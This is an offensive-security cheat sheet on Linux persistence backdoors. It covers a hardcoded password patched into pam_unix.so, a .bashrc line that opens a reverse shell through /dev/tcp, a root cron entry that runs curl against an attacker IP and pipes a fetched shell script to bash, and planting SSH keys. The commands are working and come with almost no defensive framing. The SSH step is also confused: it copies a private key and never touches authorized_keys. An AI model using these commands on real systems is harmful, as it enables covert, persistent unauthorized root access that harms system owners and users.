 # Backdoors

<figure><img src="https://media2.giphy.com/media/v1.Y2lkPTc5MGI3NjExOTI4YTQxMDEzNTRiOTQzMmFjMzQxZmQ2NTg2MDRjZjQwYTUzZDIxNCZlcD12MV9pbnRlcm5hbF9naWZzX2dpZklkJmN0PWc/3o6Mb6aijVsBCIc6oU/giphy.gif" alt="" width="375"><figcaption></figcaption></figure>

{% hint style="info" %}
<mark style="color:blue;">A backdoor refers to</mark> <mark style="color:blue;">**any method**</mark> <mark style="color:blue;">by which</mark> <mark style="color:blue;">**authorized**</mark> <mark style="color:blue;">and</mark> <mark style="color:blue;">**unauthorized users**</mark> <mark style="color:blue;">are able to get around normal security measures and</mark> <mark style="color:blue;">**gain high level**</mark> <mark style="color:blue;">user access (aka root access) on a computer</mark> <mark style="color:blue;">**system**</mark><mark style="color:blue;">,</mark> <mark style="color:blue;">**network**</mark><mark style="color:blue;">, or</mark> <mark style="color:blue;">**software application**</mark><mark style="color:blue;">.</mark>

<mark style="color:blue;">They are known for being</mark> <mark style="color:blue;">**discreet**</mark><mark style="color:blue;">. Backdoors exist for a select group of people in the know to</mark> <mark style="color:blue;">**gain easy access to a system or application**</mark><mark style="color:blue;">.</mark>
{% endhint %}

## | `PAM backdoor` |

{% hint style="info" %}
<mark style="color:blue;">This backdoor essentially consists of</mark> <mark style="color:blue;">**adding your own password**</mark> <mark style="color:blue;">to the</mark> <mark style="color:blue;">**pam\_unix.so**</mark> <mark style="color:blue;">file</mark>
{% endhint %}

_pam\_unix.so_ file is responsible for **authentication**

![](<../.gitbook/assets/image (10) (1).png>)

_pam\_unix.so_ uses the unix\_verify\_password function to verify to user's supplied password **:**

![we added a new line to our code : if (strcmp(p, "0xMitsurugi") != 0 )](<../.gitbook/assets/image (16).png>)

## | `.bashsrc backdoor` |

{% hint style="info" %}
<mark style="color:blue;">If a user has</mark> <mark style="color:blue;">**bash**</mark> <mark style="color:blue;">as their</mark> <mark style="color:blue;">**login shell**</mark><mark style="color:blue;">, the "</mark><mark style="color:blue;">**.bashrc**</mark><mark style="color:blue;">" file in their home directory is</mark> <mark style="color:blue;">**executed**</mark> <mark style="color:blue;">when an interactive session is launched.</mark>
{% endhint %}

Any user that log in often :

```bash
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```

**Put a nc listener**

## | `CronJob backdoor` |

### With a root access

{% hint style="info" %}
_<mark style="color:blue;">cronjobs file -></mark>_ _<mark style="color:blue;">**/etc/cronjob**</mark>_
{% endhint %}

Configure a task where every minute a reverse shell is sent to you. Add this line into our cronjob file :

```
* *     * * *   root    curl http://$attacker_ip:8080/shell | bash
```

Add this to the **shell** file :

```bash
#!/bin/bash
bash -i >& /dev/tcp/$ip/$port 0>&1
```

On the attacker machine :

```bash
nc -nvlp $port
```

## | `SSH Backdoor` |

{% hint style="info" %}
<mark style="color:blue;">Consists in</mark> <mark style="color:blue;">**saving**</mark> <mark style="color:blue;">our</mark> <mark style="color:blue;">**ssh keys**</mark> <mark style="color:blue;">in some</mark> <mark style="color:blue;">**user’s home**</mark> <mark style="color:blue;">directory. Then we can access it via ssh.</mark>
{% endhint %}

#### Generate ssh key

```bash
ssh-keygen
```

#### Copy our key into the user's .ssh directory

```bash
mkdir .ssh 
cp id_rsa .ssh/id_rsa
```
